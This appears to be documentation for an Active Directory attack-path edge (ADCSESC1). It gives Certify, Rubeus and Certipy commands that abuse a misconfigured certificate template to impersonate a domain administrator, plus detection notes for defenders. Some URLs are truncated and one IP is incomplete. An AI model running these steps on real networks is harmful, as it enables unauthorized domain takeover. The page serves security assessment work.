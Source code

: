 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials. 

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:"ESC1" /altname:ForestRootDA /sid:S-1-5-21-2697957641-2271029196-387917394-500
```

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

Step 3: Optionally purge all Kerberos tickets from memory:

```bash
klist purge
```

Step 4: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
Rubeus asktgt /user:forestrootda /domain:forestroot.com /certificate:cert.pfx /password:asdf /ptt
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Rubeus](https://github.com/GhostPack/R)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser

